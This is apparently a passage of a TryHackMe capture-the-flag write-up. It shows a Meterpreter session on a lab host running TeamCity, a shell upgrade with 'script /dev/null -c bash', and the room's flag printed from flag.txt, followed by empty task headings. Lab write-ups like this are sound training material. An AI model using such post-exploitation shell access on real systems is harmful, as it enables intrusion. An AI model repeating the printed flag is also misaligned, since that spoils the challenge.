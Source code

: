 ```
meterpreter > getuid
Server username: ubuntu
meterpreter > shell
Process 1 created.
Channel 1 created.
script /dev/null -c bash {//TYPE MANUALLY//}
ubuntu@brains:/opt/teamcity/TeamCity/bin$ cd
cd
ubuntu@brains:~$ ls
config.log    flag.txt
ubuntu@brains:~$ cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}
```
# DONE!!!! :partying_face:

### Task 2: Blue: Let's investigate!
<a name="t2"></a>

## References
<a name="references"></a>
